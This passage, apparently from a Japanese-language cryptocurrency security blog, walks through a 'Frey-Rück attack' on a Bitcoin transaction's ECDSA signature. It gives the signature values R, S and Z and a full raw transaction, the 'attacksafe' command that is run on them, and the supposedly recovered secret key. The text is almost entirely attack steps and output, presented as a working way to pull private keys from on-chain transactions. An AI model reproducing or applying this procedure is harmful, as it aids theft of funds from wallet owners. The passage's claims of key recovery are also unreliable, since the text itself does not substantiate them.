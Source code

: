 

<pre class="wp-block-code"><code>R = 0xcda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8
S = 0xab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad8428975
Z = 0x9d568564500c4b9911ccd4dbb3865e0c9129f2697e9a710f575c63f5f22753b1</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-61-1024x310.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-1008"/></figure>



<p>この攻撃は から開始され<code>-tool frey_ruck_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>



<p>成功した結果を確認するには、ファイルを開きます<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-62-1024x453.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-1011"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xfe150813ba57b990dc7bfacbd3f6c8f6c78a3758789628bdb53808a7fb0d8154

RawTX = 01000000015369985c4db3fc4fb6b7671a58f4858a20c11922b8a84cecdefd4687f105362a0e0000006c493046022100cda94253bf560fbb22c5dfd6b6d8d2f58d6401bfdca0a7e1dde84e3b2186b0e8022100ab8ea68d18501eee92408390e9fffd5f5a5b029821f09f4a2914b84ad842897501210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000</code></pre>
